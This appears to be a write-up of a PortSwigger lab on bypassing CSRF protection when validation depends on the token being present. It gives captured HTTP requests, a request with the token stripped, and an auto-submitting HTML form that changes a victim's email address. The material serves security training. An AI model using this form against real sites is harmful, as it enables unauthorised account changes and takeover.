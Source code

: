 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3837f7eb-8034-4086-9922-bf5797983516)


## Overview :

Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

## Solution :

When we click **update email**, our browser sends a request as follows.

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=yYeftI49JgNBG10a0D6OlJekl0EIGgRt
```

In this POST request, the csrf token is sent along with the email parameter in the body of the request.

We can either try to **remove the csrf parameter entirely** / **give a blank value (csrf=)**
to bypass the csrf protection.
 
When genreating a POC  remember not to give used email, as mentioned in Lab Hint.

First lets entirely remove the csrf parameter 

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net
```

**Generated POC -**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now paste the HTML script in the exploit server's body & deliver the exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f215f93-c52c-46ca-9c00-ea47861802b6)
